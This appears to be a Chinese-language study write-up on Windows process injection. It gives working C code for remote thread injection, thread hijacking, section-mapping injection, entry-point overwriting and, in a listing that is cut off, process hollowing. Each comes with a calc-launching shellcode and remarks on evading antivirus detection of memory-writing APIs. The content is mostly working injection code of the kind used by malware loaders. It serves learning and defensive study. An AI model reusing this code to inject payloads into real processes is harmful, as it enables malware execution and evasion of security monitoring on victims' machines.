






# 注入方式

根据各阶段调用的API，读写的内存位置的区别进行 如下分类（实战中常用的 6 种）：

## 1、远程线程注入

原始的注入手法。通过API申请空间，然后将code写入内存，然后创建线程执行。这种手法基本会被监控，但是报毒与否就再说了。

### 流程

> 打开进程 ---》申请空间 ---》写入shellcode ---》创建线程执行

### 实现代码

```c
#include<stdio.h>
#include<windows.h>
#include<stdlib.h>

unsigned char shellcode[] = "\x55\x89\xE5\x33\xC0\x50\xB8\x2E\x64\x6C\x6C\x50\xB8\x65\x6C\x33\x32\x50\xB8\x6B\x65\x72\x6E\x50\x8B\xC4\x50\xB8\xA0\x12\x86\x76\xFF\xD0\x33\xC0\x50\xB8\x2E\x65\x78\x65\x50\xB8\x63\x61\x6C\x63\x50\x8B\xC4\x6A\x05\x50\xB8\xF0\xE1\x89\x76\xFF\xD0\x33\xC0\x50\xB8\x80\x59\x86\x76\xFF\xD0\x90\x90\xC3";

int main()
{
    //计算器的进程号，准备注入他的进程
	int wpid = 3632;
    
    //打开一个进程，后面指定PID
	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, 0, wpid);
	printf("%d\n", hProcess);
    
    //申请内存空间，最后赋予空间权限
	LPVOID IpBaseAddress = VirtualAllocEx(hProcess, 0, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	printf("IpBaseAddress : %p\n", IpBaseAddress);
    
    //将shellcode写入内存
	WriteProcessMemory(hProcess, IpBaseAddress, shellcode, sizeof(shellcode), NULL);
	printf("WriteProcess\n");
    
    //创建线程执行shellcode
	CreateRemoteThread(hProcess, 0, 100, (LPTHREAD_START_ROUTINE)IpBaseAddress, 0, 0, NULL);
	return 0;
}
```

### 动态验证



VirtualAllocEx申请内存之后返回的地址，在内存中查看，可以看到一段全空空间。



在内存布局中查看，有一段ERW权限的申请出来的空间，大小是0x1000.

通过WriteProcessAddress函数将shellcode写进去，就可以在空间中看到写进去的code



但是这里通过内存查看，返现写进去的东西有点奇怪，和自己想的不一样。

因为`\\x`就不是16进制的数字了。而且\xxx这个特殊的字符是不被允许的，找了好久才发现这个问题



这个 方式可以动态的调试shellcode

## 2、线程劫持注入

就是劫持一个线程进行注入，然后再恢复这个线程，就像是荆轲刺秦你迷晕了荆轲换了他的地图，再叫醒他去刺杀秦王一样，这个换了的地图就是shellcode。

### 流程

挂起目标线程，申请内存，写入shellcode，修改线程上下文使其指向shellcode，恢复线程执行shellcode

需要注意的是，这里需要先创建一个进程，而不是直接打开现存的进程。因为需要一个挂起状态

### 代码

```c
#include <Windows.h>
#include <stdio.h>

void showstruct(PROCESS_INFORMATION pii)
{
	printf("\ndwProcessId: %d\n", pii.dwProcessId);
	printf("dwThreadId: %d\n", pii.dwThreadId);
	// Handle,也叫句柄，实际上是一个数据，是一个Long (整长型)的数据，是一种指向指针的指针。
	printf("hProcess: 0x%p\n", pii.hProcess);
	printf("hThread: 0x%p\n", pii.hThread);
	printf("===============================================================================\n");
}

int main()
{
    // 定义两个进程相关的结构体变量，都是内置结构体，可以直接定义，然后初始化为0
    STARTUPINFO si = { 0 };
    PROCESS_INFORMATION pi = { 0 };
    /*
    typedef struct _PROCESS_INFORMATION {
    HANDLE hProcess;
    HANDLE hThread;
    DWORD dwProcessId;
    DWORD dwThreadId;
  } PROCESS_INFORMATION, *PPROCESS_INFORMATION, *LPPROCESS_INFORMATION;
	*/
    
    // 创建一个名称为notepad。exe的进程，不用从父进程继承，创建之后状态为挂起，并且将信息赋值给si和pi
    if (!CreateProcess(NULL, "notepad.exe", NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi))
    {
        printf("Create process failed error code: %d\n", (int)GetLastError());
        return 1;
    }

    // 根据进程id打开进程
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pi.dwProcessId);
    if (hProcess == NULL)
    {
        printf("Open process failed error code: %d\n", (int)GetLastError());
        return 1;
    }

    // Shellcode，这里为了证明确实执行了，所以直接通过中断来验证
    char shellcode[] = "\xcc\xcc\xB8\x01\x00\x00\x00\xC3";

    // 利用api挂起进程
    SuspendThread(pi.hThread);

    // 申请一个目标进程中的内存区域
    LPVOID lpBuffer = VirtualAllocEx(hProcess, NULL, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (lpBuffer == NULL)
    {
        printf("Virtual alloc failed error code ：%d\n", (int)GetLastError());
        return 1;
    }
    // 显示出来申请区域的地址，方便调试的时候找
    printf("shellcode address is : %p\n", lpBuffer);

    // 将shellcode写进去，和远程进程注入一样
    if (!WriteProcessMemory(hProcess, lpBuffer, shellcode, sizeof(shellcode), NULL)) 
    {
        printf("Write process memory failed error code：%d\n", (int)GetLastError());
        return 1;
    }

    // 设置线程的上下文环境，让ip寄存器直接跳转
    CONTEXT ctx = { 0 };
    ctx.ContextFlags = CONTEXT_ALL;
    if (!GetThreadContext(pi.hThread, &ctx))
    {
        printf("GetThreadContext failed error code ：%d\n", (int)GetLastError());
        return 1;
    }
    // 设置ip寄存器直接指向那块地址
    ctx.Rip = (DWORD64)lpBuffer;
    
    // 设置保存线程环境
    if (!SetThreadContext(pi.hThread, &ctx))
    {
        printf("SetThreadContext failed error code ：%d\n", (int)GetLastError());
        return 1;
    }

    // 恢复线程环境，这时就可以执行shellcode了
    if (ResumeThread(pi.hThread) == -1) 
    {
        printf("ResumeThread failed error code ：%d\n", (int)GetLastError());
        return 1;
    }

    // 等待目标进程结束（这里可以直接从任务管理器关闭）
    WaitForSingleObject(pi.hProcess, INFINITE);

    // 清理恢复句柄释放空间
    CloseHandle(pi.hThread);
    CloseHandle(pi.hProcess);

    return 0;
}

```

经过验证发现是成功的，可以执行到shellcode的位置。但是缺点就是执行会创建一个新的线程，虽然在挂起的状态下前端不会有什么显示，但是还是不巧妙。

以上的方法属于是同一类，仅仅是执行的方式不同，下面通过更换申请内存的方式来进行注入。

## 3、映射注入

就是通过在内存中申请一块公共内存，然后将这块内存映射到注入程序和被注入程序，这样需要修改shellcode的时候仅需要在注入程序中修改，就可以同时映射到被注入内存中。



这种注入方式规避了`VirtualAllocEx`和`WriteProcessMemory`这些写内存的敏感函数的检测，所以该方法一般被用来当作是一种写shellcode的方式，和其他的执行方式相结合

但是在分享的时候没有给出具体的代码，只给出了零碎的一些片段

```c
// 创建一个内存区域，并且读写执行权限
NtCreateSection(&sectionHandle, SECTION_MAP_READ|SECTION_MAP_WRITE|SECTION_MAP_EXECUTE, NULL, (PLARGE_INTEGER)&sectionSize, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL);
// 将这块内存区域映射到注入进程中
NtMapViewOfSection(sectionHandle, GetCurrentProcess(), &localSectionAddress, NULL, NULL, NULL, &size, 2, NULL, PAGE_READWRITE);
// 将shellcode复制到内存区域
memcpy(localSectionAddress, shellcode, sizeof(shellcode));
// 创建远程线程执行
RtCreateUserThread(targetHandle, NULL, FALSE, 0, 0, 0, remoteSectionAddress, NULL, &targetThreadHandle, NULL);
```

### NtCreateSection

```c
NtCreateSection(
&sectionHandle, 	// 接收节对象的句柄的 HANDLE 变量的指针
SECTION_MAP_READ|SECTION_MAP_WRITE|SECTION_MAP_EXECUTE, // 确定对对象的请求访问权限
NULL,							// 不使用文件映像，而是创建一个空的内存区域。
(PLARGE_INTEGER)&sectionSize, 	// 指定节的最大大小（以字节为单位）
PAGE_EXECUTE_READWRITE, 		// 指定要在节中的每个页面上放置的保护
SEC_COMMIT, 					// 分配属性的 SEC_XXX 标志的位掩码
NULL);							// 不适用额外的文件句柄。
```

### NtMapViewOfSection

这是一个未公开的api函数，这个函数在用户态下执行，而且不会被判断异常

```c
NtMapViewOfSection(
sectionHandle, 			// 要映射的内存区域的句柄。
GetCurrentProcess(), 	// 指定要映射到内存的句柄（这里就是自己的线程）
&localSectionAddress, 	// 用于接收映射到当前进程中的内存区域的起始地址。
NULL, 					// 不指定映射到当前进程中的起始地址
NULL, 					// 不指定映射到当前进程中的内存区域的大小
NULL, 					// 不指定内存区域的偏移量。
&size, 					// 用于接收内存区域的大小。
2, 						// 指定内存区域的类型，2 表示映射到当前进程的内存地址空间。
NULL, 					// 表示不指定任何额外的信息
PAGE_READWRITE);		// 内存页的保护模式，表示该内存页可读、可写。
```

这个函数的定义来自chatgpt，很佩服啊

### RtlCreateUserThread

这个函数需要引用ntdll.lib，但是仅限于x64的程序

```c
RtCreateUserThread(
targetHandle, 			// 指定要注入的进程的句柄
NULL, 					// 不指定线程的安全标志
FALSE, 					// 指定线程是否独占，FALSE 表示不独占
0, 						// 线程栈的大小，0表示默认的大小
0, 						// 线程的优先级，0表示默认
0, 						// 线程的初始挂起状态，0 表示线程在创建后立即开始执行
remoteSectionAddress, 	// 指定要执行的 shellcode 的起始地址，该地址在注入进程中
NULL, 					// 表示不指定线程的线程函数的参数
&targetThreadHandle, 	// 用于接收新创建的线程的句柄
NULL);					// 表示不接收线程的创建时间
```

测试的shellcode，还是弹出一个计算器的功能，仅限于**32位**的程序

```c
unsigned char shellcode[] = "\x55\x89\xE5\x33\xC0\x50\xB8\x2E\x64\x6C\x6C\x50\xB8\x65\x6C\x33\x32\x50\xB8\x6B\x65\x72\x6E\x50\x8B\xC4\x50\xB8\xA0\x12\xC4\x76\xFF\xD0\x33\xC0\x50\xB8\x2E\x65\x78\x65\x50\xB8\x63\x61\x6C\x63\x50\x8B\xC4\x6A\x05\x50\xB8\xF0\xE1\xC7\x76\xFF\xD0\x33\xC0\x50\xB8\x80\x59\xC4\x76\xFF\xD0\x90\x90\xC3";
```

### 代码实现

参考：https://idiotc4t.com/code-and-dll-process-injection/mapping-injection

```c
#include<stdio.h>
#include<windows.h>
#pragma comment(lib, "ntdll.lib")
#pragma comment (lib, "OneCore.lib")

unsigned char shellcode[] = "\x55\x89\xE5\x33\xC0\x50\xB8\x2E\x64\x6C\x6C\x50\xB8\x65\x6C\x33\x32\x50\xB8\x6B\x65\x72\x6E\x50\x8B\xC4\x50\xB8\xA0\x12\xC4\x76\xFF\xD0\x33\xC0\x50\xB8\x2E\x65\x78\x65\x50\xB8\x63\x61\x6C\x63\x50\x8B\xC4\x6A\x05\x50\xB8\xF0\xE1\xC7\x76\xFF\xD0\x33\xC0\x50\xB8\x80\x59\xC4\x76\xFF\xD0\x90\x90\xC3";

int main()
{
	HANDLE hMapping = CreateFileMapping(INVALID_HANDLE_VALUE, NULL, PAGE_EXECUTE_READWRITE, 0, sizeof(shellcode), NULL);
	if (hMapping == 0)
		return 0;

	LPVOID lpMapAddress = MapViewOfFile(hMapping, FILE_MAP_WRITE, 0, 0, sizeof(shellcode));
	if (lpMapAddress == 0)
		return 0;

	memcpy((PVOID)lpMapAddress, shellcode, sizeof(shellcode));

	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 22508);
    // 打开句柄为25032的进程，并返回句柄。PROCESS_ALL_ACCESS表示需要完全访问权限。

	LPVOID lpMapAddressRemote = MapViewOfFile2(hMapping, hProcess, 0, NULL, 0, 0, PAGE_EXECUTE_READ);
	// 将映射对象映射到句柄为hProcess的进程的地址空间，以便在该进程中执行代码。PAGE_EXECUTE_READ表示需要执行和读取权限。
	HANDLE hRemoteThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)lpMapAddressRemote, NULL, 0, NULL);
	/*下面的代码仅适合于64位的程序
    HANDLE hThread = NULL;
	LPVOID lpParameter = NULL;
	RtlCreateUserThread(hProcess, NULL, FALSE, 0, 0, 0, lpMapAddress, lpParameter, &hThread, NULL);
    */
	UnmapViewOfFile(lpMapAddress);
	CloseHandle(hMapping);
	return 0;
}
```


## 4、覆盖入口点注入

在创建进程的时候，直接将进程的入口点的代码更改为shellcode，最后恢复挂起的主线程；缺点是为了达到线程开始挂起的状态，只能通过创建的方式进行，不能通过打开现有进程的方式执行。

### 流程

创建进程后挂起进程，通过PE文件结构找到入口点，将shellcode直接写入进程的入口点，然后恢复线程。

整个流程类似于线程劫持注入的过程，只不过这里是直接覆盖了入口点的代码。

关键函数：[函数具体参考定义](https://learn.microsoft.com/zh-cn/windows/win32/api/winternl/nf-winternl-ntqueryinformationprocess))

```c
__kernel_entry NTSTATUS NtQueryInformationProcess(
  [in]            HANDLE           ProcessHandle,	//要检索其信息的进程的句柄。
  [in]            PROCESSINFOCLASS ProcessInformationClass,
  [out]           PVOID            ProcessInformation,
  [in]            ULONG            ProcessInformationLength,
  [out, optional] PULONG           ReturnLength
);
```

```
[in] ProcessInformationClass
```

要检索的进程信息的类型。 此参数可以是 **PROCESSINFOCLASS** 枚举中的以下值之一。

| Value                             | 含义                                                         |
| :-------------------------------- | :----------------------------------------------------------- |
| **ProcessBasicInformation**0      | 检索指向 PEB 结构的指针，该结构可用于确定是否正在调试指定的进程，以及系统用于标识指定进程的唯一值。使用 [CheckRemoteDebuggerPresent](https://learn.microsoft.com/zh-cn/windows/desktop/api/debugapi/nf-debugapi-checkremotedebuggerpresent) 和 [GetProcessId](https://learn.microsoft.com/zh-cn/windows/desktop/api/processthreadsapi/nf-processthreadsapi-getprocessid) 函数获取此信息。 |
| **ProcessDebugPort**7             | 检索一个 **DWORD_PTR** 值，该值是进程的调试器的端口号。 非零值指示进程在环 3 调试器的控制下运行。使用 [CheckRemoteDebuggerPresent](https://learn.microsoft.com/zh-cn/windows/desktop/api/debugapi/nf-debugapi-checkremotedebuggerpresent) 或 [IsDebuggerPresent](https://learn.microsoft.com/zh-cn/windows/desktop/api/debugapi/nf-debugapi-isdebuggerpresent) 函数。 |
| **ProcessWow64Information**26     | 确定进程是否在 WOW64 环境中运行， (WOW64 是 x86 模拟器，它允许基于 Win32 的应用程序在 64 位 Windows) 上运行。使用 [IsWow64Process2](https://learn.microsoft.com/zh-cn/windows/desktop/api/wow64apiset/nf-wow64apiset-iswow64process2) 函数获取此信息。 |
| **ProcessImageFileName**27        | 检索包含进程映像文件名称的 **UNICODE_STRING** 值。使用 [QueryFullProcessImageName](https://learn.microsoft.com/zh-cn/windows/desktop/api/winbase/nf-winbase-queryfullprocessimagenamea) 或 [GetProcessImageFileName](https://learn.microsoft.com/zh-cn/windows/desktop/api/psapi/nf-psapi-getprocessimagefilenamea) 函数获取此信息。 |
| **ProcessBreakOnTermination**29   | 检索一个 **ULONG** 值，该值指示进程是否被视为关键。**注意** 此值可以在 Windows XP 和 SP3 中使用。 从 Windows 8.1 开始，应改用 [IsProcessCritical](https://learn.microsoft.com/zh-cn/windows/desktop/api/processthreadsapi/nf-processthreadsapi-isprocesscritical)。 |
| **ProcessSubsystemInformation**75 | 检索指示进程的子系统类型的 **SUBSYSTEM_INFORMATION_TYPE** 值。 *ProcessInformation* 参数指向的缓冲区应足够大，可以容纳单个[SUBSYSTEM_INFORMATION_TYPE](https://learn.microsoft.com/zh-cn/windows-hardware/drivers/ddi/content/ntddk/ne-ntddk-_subsystem_information_type)枚举。 |

#### 找到入口点

利用PEB结构找到里面的`PebBaseAddress`项，定位到内存中的pe文件的头，就是`MZ`的位置。然后通过DOS头里的e_lfanew项的值，定位到NT头就是`PE`的位置，然后找到可选头，直接获得里面的程序入口点+imageBase

#### 写入代码

通过`WriteProcessMemory`直接把shellcode写入上述计算出来的函数的入口点的地址指向的地方。

#### 执行

通过`ResumeThread`函数直接执行，或者利用`CreateRemoteThread`函数来执行

### 实现代码

```c
#include<stdio.h>
#include<Windows.h>
#include<stdlib.h>

// 32bit
unsigned char shellcode[] = "\xcc\xc3\x55\x89\xE5\x33\xC0\x50\xB8\x2E\x64\x6C\x6C\x50\xB8\x65\x6C\x33\x32\x50\xB8\x6B\x65\x72\x6E\x50\x8B\xC4\x50\xB8"
"\xA0\x12\xed\x76"
"\xFF\xD0\x33\xC0\x50\xB8\x2E\x65\x78\x65\x50\xB8\x63\x61\x6C\x63\x50\x8B\xC4\x6A\x05\x50\xB8"
"\xF0\xE1\xF0\x76"
"\xFF\xD0\x33\xC0\x50\xB8"
"\x80\x59\xed\x76"
"\xFF\xD0\x90\x90\xC3";
// 64bit
unsigned char shellcode64[] = "\xcc\xc3\x55\x48\x8B\xEC\x90\xC7\x04\x24\x2E\x64\x6C\x6C\xC7\x44\x24\xFC\x65\x6C\x33\x32\xC7\x44\x24\xF8\x6B\x65\x72\x6E\x48\x8B\xCC\x90\x90\x48\xB8"
"\xA0\x8C\xC7\xA7\xFE\x7F\x00\x00"
"\xFF\xD0\xBA\x05\x00\x00\x00\xC7\x04\x24\x65\x78\x65\x2E\xC7\x44\x24\xFC\x63\x6C\x61\x63\xC7\x44\x24\xF8\x00\x00\x00\x00\x48\x8B\xCC\x90\x48\xB8"
"\xD0\x77\x41\xA8\xFE\x7F\x00\x00"
"\x90\x90\x90\xC3";

typedef struct _PROCESS_BASIC_INFORMATION {
    PVOID Reserved1;
    PVOID PebBaseAddress;
    PVOID Reserved2[2];
    ULONG_PTR UniqueProcessId;
    PVOID Reserved3;
} PROCESS_BASIC_INFORMATION;

typedef LONG(NTAPI* NtQueryInformationProcessPtr)(
    HANDLE ProcessHandle,
    DWORD ProcessInformationClass,
    PVOID ProcessInformation,
    ULONG ProcessInformationLength,
    PULONG ReturnLength
    );

int main()
{
    // NtQueryInformationProcess api在ntdll里，属于未公开的函数，所以需要动态调用
    HMODULE hNtdll = LoadLibraryA("ntdll.dll");
    if (hNtdll == NULL)
    {
        printf("无法加载 ntdll.dll 库\n");
        return 1;
    }

    // 设置启动信息和进程信息，保留在结构体里，方便后续操作
    STARTUPINFO si = { sizeof(si) };
    PROCESS_INFORMATION pi = { 0 };

    // 因为需要一个挂起状态的进程，所以需要Create，而不能Open，而且需要执行入口点，所以只能创建
    if (!CreateProcessA(NULL, (LPSTR)"C:\\Windows\\System32\\svchost.exe", NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi))
    {
        printf("CreateProcessA 失败，错误码 %lu\n", GetLastError());
        return 1;
    }

    NtQueryInformationProcessPtr NtQueryInformationProcess = (NtQueryInformationProcessPtr)GetProcAddress(hNtdll, "NtQueryInformationProcess");
    //find base addr by peb
    PROCESS_BASIC_INFORMATION pbi;
    ULONG ReturnLength;
    NTSTATUS status = NtQueryInformationProcess(pi.hProcess, 0, &pbi, sizeof(pbi), &ReturnLength);
    if (status != 0)
    {
        printf("NtQueryInformationProcess 失败，错误码 %lu\n", status);
        return 1;
    }
    // peb offset
    DWORD_PTR pef_offset = (DWORD_PTR)pbi.PebBaseAddress + 0x10;

    LPVOID imagebase_addr = 0;
    if (!ReadProcessMemory(pi.hProcess, (LPVOID)pef_offset, &imagebase_addr, sizeof(LPVOID), NULL))
    {
        printf("读取目标进程的Peb结构体失败，错误码 %lu\n", GetLastError());
        return 1;
    }
    // MZ address
    printf("imagebase_addr: 0x%p", imagebase_addr);
    //（EntryPoint）
        // dos header
    IMAGE_DOS_HEADER dosHeader = { 0 };
    if (!ReadProcessMemory(pi.hProcess, imagebase_addr, &dosHeader, sizeof(dosHeader), NULL))
    {
        printf("读取目标进程的DOS头失败，错误码 %lu\n", GetLastError());
        return 1;
    }

        // nt header
    // 这里需要定义一个结构体，用PIMAGE_NT_HEADERS定义的话默认定义了一个类型的指针但是并没有开辟内存空间，所以会报错
    IMAGE_NT_HEADERS ntHeader = { 0 };
    DWORD nt_offset = dosHeader.e_lfanew;
    // 定位到nt头的位置
    if (!ReadProcessMemory(pi.hProcess, (LPVOID)((DWORD_PTR)imagebase_addr + nt_offset), &ntHeader, sizeof(ntHeader), NULL))
    {
        printf("读取目标进程的NT头失败，错误码 %lu\n", GetLastError());
        return 1;
    }
    // 找到可选头里的入口偏移，然后算EntryPoint的真实地址
    LPVOID entry_point = (LPVOID)(ntHeader.OptionalHeader.AddressOfEntryPoint + (DWORD_PTR)imagebase_addr);

    // 将入口点的代码覆盖掉
    if (!WriteProcessMemory(pi.hProcess, entry_point, shellcode64, sizeof(shellcode64), NULL))
    {
        printf("修改进程入口点代码失败，错误码 %lu\n", GetLastError());
    }

    // 恢复主线程执行
    ResumeThread(pi.hThread);

    WaitForSingleObject(pi.hProcess, INFINITE);

    CloseHandle(pi.hThread);
    CloseHandle(pi.hProcess);

    return 0;
}
```


## 5、傀儡进程

根据统计这是比较经典的进程注入的方式，所以被很多的恶意软件和APT组织所使用，所以导致目前主流的杀毒软件和沙箱都对他有很完善的检查策略，所以基本没有什么实际的用处了。

### 流程

创建一个挂起的进程，然后将该进程的内存映射取消掉，换成shellcode或者payload这些代码，然后再恢复进程运行状态

#### 挂起进程

通过创建的方式创建一个挂起状态的进程，和之前的几个一个套路

#### 取消映射

利用 `NtUnmapViewOfSection`来取消原来的映射，并利用VirtualAllocEx函数申请内存区域。

#### 重新申请

利用VirtualAllocEx重新申请一块空间，然后把准备好的东西写进去

#### 设置PEB

重新写PEB里的base address【64->RDX】并设置好RCX寄存器（64位）

#### 恢复执行

直接resume就行了（不要注入svchost）

### 实现代码

```c
#include <stdio.h>
#include <stdlib.h>
#include <windows.h>

typedef LONG(NTAPI* NtUnMapViewOfSectionPtr)(HANDLE hProcess, PVOID  BaseAddress);

typedef struct _PROCESS_BASIC_INFORMATION {
	PVOID Reserved1;
	PVOID PebBaseAddress;
	PVOID Reserved2[2];
	ULONG_PTR UniqueProcessId;
	PVOID Reserved3;
} PROCESS_BASIC_INFORMATION;

typedef LONG(NTAPI* NtQueryInformationProcessPtr)(
	HANDLE ProcessHandle,
	DWORD ProcessInformationClass,
	PVOID ProcessInformation,
	ULONG ProcessInformationLength,
	PULONG ReturnLength
	);


int main(int argc, char* argv[])

{
	// 准备要往里面替换的进程,一定要使用完整目录
	LPCSTR file_path = "E:\\信息安全知识学习\\ProcessThread注入\\进程注入学习代码\\傀儡进程注入\\x64\\Debug\\injected.exe";
	HANDLE hFile = CreateFileA(file_path, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
	if (hFile == INVALID_HANDLE_VALUE)
	{
		printf("Open EXE File Failed error code: %d", GetLastError());
		return 1;
	}
	DWORD dwFileSize = GetFileSize(hFile, NULL);
